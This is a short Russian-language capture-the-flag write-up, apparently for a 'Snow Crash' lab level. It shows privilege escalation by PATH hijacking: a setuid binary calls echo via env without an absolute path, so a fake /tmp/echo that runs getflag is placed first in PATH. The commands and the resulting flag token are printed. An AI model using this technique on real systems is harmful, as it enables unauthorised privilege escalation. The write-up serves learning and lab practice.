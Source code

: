 В этом уровне впервыфе появляется некий бинарный файл

```
ls -la
```
> ...\
-rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03\
...

Права rws означают, что данный банарный файл будет выполняться не с привилегиями пользователя, который ее запустил, а с привилегиями владельца файла.
Так как владельцем файла является flag03, вместо echo нужно выполнить getflag

С помощью трассировки вызовов библиотеки находим:
>__libc_start_main(0x80484a4, 1, 0xbffff7b4, 0x8048510, 0x8048580 <unfinished ...>\
getegid()                                                                                                     = 2003\
geteuid()                                                                                                     = 2003\
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280)                                                           = 0\
system("/usr/bin/env echo Exploit me"Exploit me\
 <unfinished ...>\
--- SIGCHLD (Child exited) ---\
<... system resumed> )                                                                                        = 0\
+++ exited (status 0) +++

Oткрыв файл в нем была найдена строка:

system("/usr/bin/env echo Exploit me"Exploit me\

Которая выполняет echo без абсолютного пути, следовталеьно этот бинарник можно подменить

Создаем файл echo с необходимым содержимым
```
cat echo
```
> #!/bin/sh\
/bin/getflag

Добавляем в начало данный путь
```
export PATH=/tmp:$PATH
```

Получаем токен
```
./level03
```
> Check flag.Here is your token : qi0maab88jeaj46qoumi7maus

